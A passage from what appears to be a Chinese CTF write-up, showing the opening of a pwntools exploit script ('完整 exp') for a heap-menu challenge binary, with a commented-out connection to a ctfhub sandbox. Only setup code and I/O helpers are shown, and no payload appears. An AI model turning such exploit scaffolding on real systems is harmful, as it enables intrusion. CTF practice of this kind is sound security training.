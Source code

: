 [![](assets/1701606938-61ab524fc12fed19dbc785263dcd25d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201555-6cb33268-6a8b-1.png)

完整 exp：

```plain
from pwn import *
#from LibcSearcher import *

context(log_level='debug',arch='amd64', os='linux')
pwnfile = "./pwn"
#io = remote("challenge-62baade3e67b5724.sandbox.ctfhub.com", 23306)
io = process(pwnfile)
elf = ELF(pwnfile)
#libc = ELF("./libc-2.23.so")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def dbg():
    gdb.attach(io)
    pause()

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))


def add(size,data):
    ru(b"Input your choice >> \n")
```